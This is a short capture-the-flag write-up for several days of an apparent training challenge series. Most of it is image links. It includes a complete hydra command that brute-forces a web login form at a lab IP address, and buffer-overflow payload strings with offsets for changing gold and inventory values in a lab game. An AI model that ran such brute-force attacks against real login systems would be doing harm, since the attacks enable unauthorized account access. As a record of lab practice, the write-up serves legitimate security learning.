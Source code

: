 # Not including the days with copy paste solutions

## Day 2

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/4c531c44-e8db-4bd0-9386-69eaf47d95a1)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/55a7560a-da16-4b21-a40d-3c7139abce43)

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/df85fff5-553f-4b1f-ab72-42da868f0957)

## Day 4
Instead of using their wfuzz wordlist, I tried writing my own payload with hydra:

``` hydra -L usernames.txt  -P passwords.txt 10.10.229.119 http-post-form "/login.php:username=^USER^&password=^PASS^:Please enter the correct credentials" -V -f ```

## Day 6

Gold payload:
```AAAAAAAAAAAAXXXX```

Star payload:
```AAAAAAAAAAAAAAAAAAAAAAAAAAAAd```

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/bd55a709-e224-4462-9b88-402839baf887)

The offset to the gold is 12 bytes, the offset to the inventory is 28 bytes. We know the id of the star is "d" because of the shop.

![image](https://github.com/michaelwang3668/ctf-writeups/assets/75542248/681ab864-920c-4e48-af7b-90865cba8af2)
